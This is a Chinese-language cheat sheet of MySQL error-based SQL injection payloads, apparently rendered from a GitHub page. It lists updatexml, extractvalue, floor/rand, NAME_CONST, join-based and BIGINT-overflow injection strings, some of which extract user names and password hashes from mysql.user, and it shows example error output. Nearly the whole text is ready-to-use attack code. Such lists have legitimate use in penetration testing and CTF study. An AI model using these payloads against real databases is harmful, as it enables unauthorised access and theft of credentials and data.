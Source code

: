 ```
updatexml(1,concat(0x7e,(select/**/user()),0x7e),1)--+
1'and updatexml(1,concat(0x7e,database(),0x7e),1)--+
extractvalue(1,concat(0x24,(select/**/user())))
```
#### floor,主键重复报错：
```
and select 1 from (select count(*),concat(version(),floor(rand(0)*2))x from information_schema.tables group by x)a);
and (select count(*) from (select 1 union select null union select  !1)x group by concat((select user()),floor(rand(0)*2)));

NAME_CONST列名重复报错(MySQL 5.0.12加入):
and exists(select*from (select*from(select name_const(@@version,0))a join (select name_const(@@version,0))b)c)
and exists(select*from (select*from(select name_const((select concat(user,password) from mysql.user limit 0,1),0))a join (select name_const((select concat(user,password) from mysql.user limit 0,1),0))b)c)
```
#### join报错注入：
```
下面以爆mysql.user表为例爆字段名的过程：
（1）爆第一个列名
union select * from(select * from mysql.user a join mysql.user b)c;
（2）爆第二个列名（使用using）
union select * from(select * from mysql.user a join mysql.user b using(Host))c;
（3）爆第三列名（还是使用using，参数是前两个列的列名）
union select * from(select * from mysql.user a join mysql.user b using(Host,User))c;
依次类推，只要修改语句的using即可。
爆数据
union select * from(select * from math1 a join math1 b using(id,name))c
```
#### BIGINT等数据类型溢出报错（mysql<5.5.53可用，且报错信息长度有限）：
```
select exp(~(select*from(select user())x));
select !(select*from(select user())x)-~0;
类推：
select !hex((select*from(select user())x))-~0;
select !ceil((select*from(select user())x))-~0;
select !atan((select*from(select user())x))-~0;
select !rand((select*from(select user())a))-~0;
select !sqrt((select*from(select user())a))-~0;
select !round((select*from(select user())a))-~0;
select !sign((select*from(select user())a))-~0;
select !floor((select*from(select user())a))-~0;
select !tan((select*from(select user())a))-~0;
select !ceiling((select*from(select user())a))-~0;
select !exp((select*from(select user())x))-~0;
select !(select*from(select user())a)-~1^200;
```
#### 其他报错
```
polygon、multipoint、multilinestring、multipolygon、linestring

得到库名：
payload:
select * from math1 where id=1 union select 1 from flag;
ERROR 1146 (42S02): Table 'myclass.flag' doesn't exist

得到表名：
payload:
select * from math1 where id=0 and linestring(id)
ERROR 1367 (22007): Illegal non geometric '`myclass`.`math1`.`id`' value found during parsing
```